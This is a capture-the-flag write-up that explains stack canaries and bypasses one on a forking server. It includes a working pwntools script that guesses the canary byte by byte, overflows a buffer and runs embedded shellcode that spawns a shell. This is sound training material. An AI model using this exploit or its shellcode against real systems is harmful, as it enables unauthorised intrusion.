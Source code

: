 # cookies-with-a-fork

## by *kaipan*

### Challenge Premise

This challenge deals with stack cookies or stack canaries.

We’ll start by understanding what a stack cookie/canary is and what it protects. In general, a stack cookie is a randomly chosen value (4 or 8  bytes long for 32-bit and 64-bit systems respectively) which is always put before the saved base pointer on the stack. Before a function returns the stack cookie will always be checked for correctness. If it is modified a program will just crash (*stack smashed* seems to be the term for detection of a modified stack and potential overflow from the cookie/canary changing) and a possible malicious code won’t be executed. This gives us a certain amount of security if a stack buffer overflow occurs because it protects us against control over the return address of the program (if the cookie is before the saved base pointer, then it must be before the return address, so if the cookie is modified then it means that the return address could also have been modified after the stack cookie, but if it is untampered, then we can be sure in **the ideal case** that anything after the cookie, including the return address, is also untampered). But there are multiple problems with stack cookies.

The first problem is that we can still overflow all variables which are between our buffer and the stack cookie. Second, if the program forks it is possible to leak the stack cookie because it has the same value in each child process (an example being a server process forking to serve clients, but the stack cookie remains the same for all forks). Third problem, if the target does not have a classic buffer overflow e.g. a format string vulnerability or a relative write out of bounds via an array, we could still bypass the stack cookie and write directly to certain addresses. So, stack cookies are somewhat good protection against non-forked programs with stack buffer overflow vulnerabilities but for other scenarios, this protection is  easy to bypass. Stack cookies only make it harder for adversaries to hack the binary, but they aren't guaranteed protection like **base and bounds** checking, but base and bounds checking is often computationally expensive, whereas cookies barely affect performance.

Note that stack cookies always have a null byte as the least significant byte because some functions will stop reading data if a null byte is sent. Therefore, an attacker would not be able to brute force or even send a stack cookie, if it is known, because the function would stop reading at the null byte.

### Exploit

All we need to know is that the stack cookie remains the same every time you fork, so by forking you basically can just brute force and guess the stack cookie byte by byte, the number 10 when converted with `p8` results in a newline and so we have to skip over it, which is pretty dumb (so pray that the number 10 is not part of the cookie lmao or just rerun until you get a clean stack cookie) since it will end the child function and result in an incorrect guess, and the last byte of the stack cookie is always *0x00* so we only have to guess the other 7 bytes (architecture is 64 bit, so cookie is 8 bytes total). We can tell when we guess a byte correctly since the child should exit normally since the cookie was not modified, otherwise you get a stack smash message and you need to continue guessing.

There is no print flag function, so we need to get a reverse shell by using shellcode. The child process runs a function that gets user input and stores it in a buffer, but of course, the binary reads in more data then there is space in the buffer, so there is a buffer overflow exploit that we can use to run our shellcode (NX flag is disabled, so code can be executed on the stack). We need to load our shellcode in the buffer, and then overwrite the return address to return to the address of our shellcode (which the binary convenient provides for us by printing the address so we just need to parse the address of the buffer to run the shellcode), making sure the write past the cookie without modifying it on the way and the saved RBP as well.

Each byte can have a value from 0 to 255, so we just setup a loop to iterate through each byte, and an inner loop to guess each possible byte value. We need to find how many bytes we need to write to reach the stack cookie from the buffer, which we can do trial and error for (keep on writing more and more bytes and keep track of the number until you stack smash) or use the disassembly of the `child` function in **pwndbg** to find the offset from RBP (I used this method, and the offset was 208, since the cookie is 8 bytes below, it means we write 200 bytes to reach the cookie, then 8 more bytes to reach RBP, then 8 bytes to overwrite the return address). We build our initial payload with the shellcode, filler to reach the stack cookie, the last 0x00 byte of the stack cookie, then we use our loop to guess the remaining 7 bytes and add it to our payload. After that is done, we have our final payload and we send it to the binary which should execute the shellcode and then give us a reverse shell, which allows us to `cat flag` and get the flag!

### Script

```python
#!/usr/bin/env python3
from pwn import *

p = remote("chal.ctf-league.osusec.org", 1555)

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# payload = shellcode + 'A' * (200-27) + cookie + RBP + ret addr
payload = shellcode + b'A' * (200-27) + p8(0x00)

print(p.recvline().strip())
location_str = ""

# Guess the bytes
for bruh in range(7):

    print("Current payload: " + str(payload))
    print("Guessing byte #" + str(bruh + 2))

    for i in range(256):

        if i == 10:
            continue

        test = payload + p8(i)

        # Please give me some data receive
        location_str = p.recvline().strip()
        print(location_str)

        p.sendline(test)

        # Read exit status
        exit_str = p.recvline().strip()
        print(exit_str)

        # Check for stack smash or exit status (valid)
        # Valid, break and then guess the next byte using outer for loop
        if b'exit status' in exit_str:
            payload += p8(i)
            print("Correct guess: %d" % i)
            break

# Reach RBP, so now we just overwrite that and the ret addr to run shellcode
# Parse location string for the location
location = int(location_str.split()[-1][:-1], 16)
payload += p64(location) * 3

p.sendline(payload)

p.interactive()
```

### Flag

`osu{br34k_4LL_t53_def3n5es!!!}`